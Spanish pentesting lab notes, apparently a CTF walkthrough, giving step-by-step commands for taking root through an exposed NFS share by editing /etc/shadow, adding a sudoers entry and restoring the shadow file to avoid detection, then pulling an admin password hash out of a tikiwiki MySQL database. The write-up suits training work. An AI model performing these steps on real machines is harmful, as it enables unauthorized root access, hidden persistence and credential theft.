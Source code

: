 		a. En local, crear un directorio donde montaremos la
			proyeccion del sistema nfs de la maquina atacada

		mkdir [ruta_directorio]

		b. En local, montar el sistema nfs en el directorio

		sudo mount -t nfs [ip]:/ [ruta_directorio]

		t: tipo de sistema de ficheros

		c. Hacer una copia del archivo "shadow" por seguridad

		sudo cp [dir]/etc/shadow ./shadow_copy

		d. Crear contraseña cifrada

		openssl passwd -1 [SALT] [contraseña_nueva]

		1: MD5 de 22 caracteres

		Salida:
			$1$[SALT_cifrado]$[contraseña_cifrada]

		e. Cambiar la contraseña de root en archivo shadow original

		f. Entrar como root en la maquina
		
		ssh root@[ip] // [contraseña_nueva]

		g. Añadir usuario "user" a fichero "sudoers"

		sudo visudo -> user ALL:(ALL) ALL

		h. Salir y restaurar el archivo "shadow" original copiado
			por si el usuario quisiera acceder a root. Si falla
			la contraseña, nos podrían pillar antes

		sudo cp ./shadow_copy [dir]/etc/shadow

		i. Entrar como "user" en la maquina y cambiar los permisos

		chmod [0-70-70-7] [fichero]


7 mysql
entramos con la cuenta con los permisos dentro del ssh
ssh admin@10.0.2.5
dentro simplemente hacemos mysql tikiwiki y ya estamos dentro del mysql
con el show tables vemos las tablas que hay dentro del mysql
Vemos todas las tablas
![image.png](./image.png)
Filtramos para ver solo las que contengan user en el name
![image-1.png](./image-1.png)
Ahora en las tablas sospechosas simplemente miramos cual de ellas es la que contiene el hash
![image-2.png](./image-2.png)
En la tabla users.users probamos hasta encontrar el admin
![image-3.png](./image-3.png)
